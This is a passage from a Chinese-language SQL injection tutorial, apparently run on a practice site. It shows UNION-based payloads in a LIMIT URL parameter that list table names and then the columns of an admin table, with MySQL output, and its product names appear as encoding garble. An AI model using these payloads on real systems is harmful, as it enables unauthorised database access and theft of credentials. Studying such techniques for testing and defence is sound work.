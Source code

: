 
web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=DATABASE() limit 0,3



数据库语句: select * from tdb_goods limit 0,2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=DATABASE() limit 0,3;



```plain
mysql> select * from tdb_goods limit 0,2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=DATABASE() limit 0,3;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | tdb_admin                       | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
3 rows in set (0.00 sec)
```

## 0x06 暴字段

table_schema = "xx" 要看的数据库名

table_name = "xx" 要看的表名

limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 0,3

数据库语句-爆test库 tdb_admin表的字段名: select * from tdb_goods limit 0,2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 0,3;

```plain
mysql> select * from tdb_goods limit 0,2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 0,3;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | id                              | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
```